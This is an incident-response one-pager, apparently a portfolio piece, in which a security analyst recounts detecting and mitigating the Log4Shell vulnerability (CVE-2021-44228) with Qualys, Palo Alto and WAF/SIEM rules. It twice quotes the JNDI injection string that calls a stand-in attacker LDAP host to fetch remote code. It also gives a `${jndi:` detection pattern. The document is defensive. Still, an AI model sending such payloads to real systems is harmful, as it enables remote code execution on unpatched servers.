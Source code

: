 # Log4j Incident Response – One-Pager  
**Role:** Security Operations Analyst  
**Duration:** Dec 2021 – Jan 2022  
**Tools Used:** Qualys, Palo Alto Panorama, SolarWinds, Slack/Bridge Calls  

---

## 📌 What is Log4j?  
Apache Log4j is a Java-based logging utility used in countless enterprise applications. In December 2021, a critical vulnerability—**CVE-2021-44228 (Log4Shell)**—was discovered that allowed **unauthenticated remote code execution (RCE)** via **JNDI lookups** in log messages.

- **CVSS Score:** 10.0 (Critical)  
- **Affected Versions:** ≤ 2.14.1  
- **Fixed in:** 2.15.0 and later  
- **Exploit Example:** `${jndi:ldap://attacker.com/payload}`

### How it Works – The Exploit:
- Log4j supported JNDI (Java Naming and Directory Interface) lookups. An attacker could send a string like **${jndi:ldap://attacker.com/a}** in user input.
- If this input is logged in a login error message, Log4j would parse the JNDI string. It would connect to the malicious LDAP server and fetch a remote Java class = Remote Code Execution (RCE).  

---

## 🕵️‍♂️ Why It Was Dangerous  
- Widespread usage across Java apps (e.g., Minecraft, VMware, Apple iCloud, AWS)  
- Enabled full remote code execution with minimal effort  
- Led to deep supply chain compromise and APT activation  
- Embedded in shadow dependencies (JARs inside JARs)

---

## 🛡️ My Role During the Incident  
I worked on the **Security Operations Team** at TCS supporting AMD’s infrastructure during the crisis. This involved **real-time detection, monitoring, and remediation** in collaboration with L2/L3 teams and external partners.

---

## 🎯 Key Responsibilities & Contributions

### 🔍 Vulnerability Detection
- Managed **Qualys Cloud Agent** to ensure accurate detection (QIDs: 376157, 376178, 91495)  
- Scanned for vulnerable Log4j instances across Linux/Windows systems  
- Flagged high-risk servers for immediate patching and isolation  

### 🌐 Firewall & Perimeter Defense
- Monitored **Palo Alto Panorama** for outbound LDAP/RMI/DNS exploit traffic  
- Applied dynamic firewall rules to **block JNDI lookup patterns**  
- Detected suspicious communication with external command servers  

### 📊 Incident Coordination & Reporting
- Participated in **24x7 bridge calls and war-room sessions**  
- Documented exposure impact, patch status, and escalation workflows  
- Used **SolarWinds** for system discovery, patch prioritization, and health checks  

---

## 🧰 Remediation Actions by L2/L3
- Upgraded Log4j to version **2.16+ / 2.17+**  
- Disabled JNDI lookups: `log4j2.formatMsgNoLookups=true`  
- Applied **WAF rules** and SIEM detection signatures for `${jndi:` patterns  
- Implemented **compensating controls** and monitored patch completion  

---

## 📘 Outcome & Learning
Supported large-scale incident response for a global zero-day exploit involving multiple threat vectors, including suspected **APT activity**. Gained hands-on experience with **real-time detection, cross-functional security collaboration**, and **tool-based mitigation** under pressure.
"""
